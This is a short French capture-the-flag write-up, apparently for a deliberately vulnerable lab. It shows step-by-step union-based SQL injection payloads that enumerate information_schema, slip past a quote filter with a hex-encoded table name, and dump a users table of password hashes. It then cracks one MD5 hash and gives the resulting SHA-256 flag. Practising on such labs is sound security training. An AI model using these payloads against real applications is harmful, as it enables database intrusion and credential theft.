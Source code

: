 
On display les informations concernant la base de donnée SQL grace a information_schema.tables

cmd : 1 union select table_schema,table_name from information_schema.tables

On voit qu'il existe une table users, il faut maintenant récupéré la value des columns pour trouver un couple identifiant/mot de passe, l'input de member n'accepte que les requetes qui ne demande que 2 valeur. Pour contrer la sécurité sur les quotes qui nous empêche de demander directement la table users on convertit le nom de la table en hexa.

1 union select null,group_concat(column_name) from information_schema.columns where table_name = 0x7573657273 # (0x7573657273 == users en hexa seul moyen pour que table_name accept l'input)

Il nous reste plus qu'a choisir les columns que l'on souhaite

1 union select Commentaire,countersign from users


result :: 

ID: 1 union select Commentaire,countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 1 union select Commentaire,countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 1 union select Commentaire,countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 1 union select Commentaire,countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

md5 hash : 5ff9d0165b4f92b14994e5c685cdce28 =  FortyTwo
lower all char  = fortytwo
hash Sh256 = 4A474D7856BE3C7FCB262B8E2E931E20FC8EC61FEBD184F40D5D0452C291ED22
